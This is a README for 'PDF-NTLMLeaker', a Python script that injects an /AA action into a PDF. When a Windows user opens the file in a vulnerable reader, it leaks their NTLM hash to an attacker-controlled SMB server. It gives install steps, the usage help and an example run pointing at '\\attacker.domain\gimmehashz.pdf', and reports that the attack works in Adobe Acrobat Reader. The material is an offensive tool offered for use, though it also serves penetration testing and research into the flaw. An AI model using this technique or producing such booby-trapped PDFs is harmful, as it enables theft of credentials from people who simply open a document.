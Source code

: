 # PDF-NTLMLeaker v0.1

## Description


This script implements the Proof of Concept attack from the Checkpoint research ["NTLM Credentials Theft via PDF Files"](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

Basically, this Python script will inject in any given pdf a /AA entry that when parsed by the PDF reader will request a remote file in a server controlled by the attacker leaking the NTLM hash of any user that open that pdf document in a windows host. 

During my tests with the script I verified that this attack works nicely in the Adobe Acrobat Reader. But my tests failed in Browser's default PDF readers (Edge, Firefox and Chrome) and also in the Foxit Reader 9.1.


## Install

Install required libraries with:

```
pip install pdfrw
```

## Example

```
$ python3 PDF-NTLMLeaker.py -h

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

usage: PDF-NTLMLeaker.py [-h] [-o OUTPUT] input path

positional arguments:
  input                       PDF file to be used as input.
  path                        UNC path of malicious SMB Server/Responder host
                              (ex: \\malicious.com\dumb_file.pdf)

optional arguments:
  -h, --help                  show this help message and exit
  -o OUTPUT, --output OUTPUT  Name of the output file. (default:
                              modified_file.pdf)

This script will inject a malicious metadata in a PDF file to force it leak
the NTLM hash of any user that open that file in a Windows host.

```


```

$ python3 PDF-NTLMLeaker.py sample.pdf '\\attacker.domain\gimmehashz.pdf'

========================================================================
|                         PDF-NTLMLeaker v0.1                          |
|                               by pimps                               |
========================================================================

[*] Reading PDF file: sample.pdf
[*] Injecting the payload in the PDF file...
[*] Saving modified PDF as: modified_file.pdf
[*] Done!

```

